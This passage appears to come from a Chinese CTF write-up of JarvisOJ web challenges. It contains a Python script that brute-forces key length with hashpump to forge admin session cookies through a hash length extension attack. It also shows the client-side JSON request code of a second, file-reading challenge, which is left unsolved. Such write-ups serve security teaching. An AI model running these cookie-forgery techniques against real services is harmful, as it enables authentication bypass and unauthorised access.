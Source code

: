 典型的哈希长度扩展攻击

唯一不确定的就是密钥长度,写个脚本爆破

```python
#!/usr/bin/env python
import os
import requests
import urllib
def rev(s):
	s=eval("'"+s+"'")
	return urllib.quote(s[::-1])

for i in range(128):
	print(123)
	tmp=os.popen("hashpump -s 3a4727d57463f122833d9e732f94e4e0 --data "+'\'s:5:"guest";\''[::-1]+' -a '+'\'s:5:"admin";\''[::-1]+" -k "+str(i)).readlines()
	print("hashpump -s 3a4727d57463f122833d9e732f94e4e0 -d "+'\'s:5:"guest";\''[::-1]+' -a '+'s:5:"admin";'[::-1]+" -k "+str(i))
	hsh=tmp[0].replace('\n','')
	role=rev(tmp[1].replace('\n',''))
	cookie={'hsh':hsh,'role':role}
	text=requests.get("http://web.jarvisoj.com:32778/",cookies=cookie).text
	if 'CTF' in text :
		print(text)
		break
	print(cookie)

```



### api调用

请设法获得目标机器/home/ctf/flag.txt中的flag值。

![image.png](https://i.loli.net/2019/10/08/DEJCarH2Wi8jsTF.png)



点击按钮发生:

```json
function send(){
 evil_input = document.getElementById("evil-input").value;
 var xhr = XHR();
     xhr.open("post","/api/v1.0/try",true);
     xhr.onreadystatechange = function () {
         if (xhr.readyState==4 && xhr.status==201) {
             data = JSON.parse(xhr.responseText);
             tip_area = document.getElementById("tip-area");
             tip_area.value = data.task.search+data.task.value;
         }
     };
     xhr.setRequestHeader("Content-Type","application/json");
     xhr.send('{"search":"'+evil_input+'","value":"own"}');
}
```
